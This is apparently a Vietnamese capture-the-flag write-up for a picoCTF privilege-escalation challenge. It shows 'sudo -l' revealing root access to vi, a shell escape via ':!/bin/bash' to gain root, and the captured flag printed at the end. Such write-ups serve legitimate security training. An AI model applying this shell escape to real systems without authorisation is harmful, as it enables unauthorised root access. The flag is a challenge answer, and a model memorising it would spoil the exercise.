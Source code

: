 ***Permissions***

![alt text](image.png)

Đăng nhập sever ssh theo địa chỉ và mật khẩu đề bài đưa<br>
Kiểm tra sudo permissions xem user có quyền truy cập đến đâu bằng lệnh sau <br>
```sudo -l```
```
picoplayer@challenge:~$ whoami
picoplayer
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer:
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
Ta có quyền truy cập tới vi text editor -> có thể dùng vi như là root cho mọi file<br>
Tạo file (test) trong thư mục với vi: ```sudo vi test```.
Chạy câu lệnh [này](https://gtfobins.github.io/) sau khi ở trong command mode của vi: ```:!/bin/bash```<br>

![alt text](image-1.png)

Lấy được root

![alt text](image-2.png)

cd vào /root (theo như đề, ta có thể đọc được các file trong root)<br>
ls -la, xuất hiện file ẩn .flag.txt<br>

![alt text](image-3.png)

cat file, ta được flag: ```picoCTF{uS1ng_v1m_3dit0r_f6ad392b}```<br>